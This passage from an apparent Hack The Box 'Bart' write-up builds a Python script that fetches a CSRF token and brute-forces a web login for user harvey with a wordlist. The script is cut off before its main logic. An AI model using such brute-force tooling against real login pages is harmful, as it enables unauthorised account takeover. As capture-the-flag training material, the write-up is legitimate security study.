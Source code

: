 ![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-06-HackTheBox-Bart/2021-09-06-HackTheBox-Bart%2009:30:41.png)

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-06-HackTheBox-Bart/2021-09-06-HackTheBox-Bart%2009:31:03.png)

Sure, we see that we have a `CSRFToken` on the request, we will need to get it before send the data, so let's use a simple skeleton in python to start builind our script

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-u', '--username', help='Username to target', required=False)
    parser.add_argument('-w', '--wordlist', help='Wordlist to be used', required=False)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

```sh
python3 brute_login.py -t bart.htb -u harvey -w wordlist.txt
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-06-HackTheBox-Bart/2021-09-06-HackTheBox-Bart%2009:58:10.png)

user_brute.py
```py
#!/usr/bin/python3
# Date: 2021-09-08
# Exploit Author: 0x4rt3mis
# Hack The Box - Bart
# User Brute Force

import argparse
import requests
import sys
import os

''' Setting up something important '''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

# First, we need to get the CSRFToken
def getCSRFToken(rhost):
    # Build the url
    login_url = 'http://' + rhost + '/monitor/?action=forgot'
    # Make csrfMagicToken global
    global csrf_token
    # Make the request to get csrf token
    csrf_page = r.get(login_url, verify=False, proxies=proxies)
    # Get the index of the page, search for csrfMagicToken in it
    index = csrf_page.text.find("csrf")
```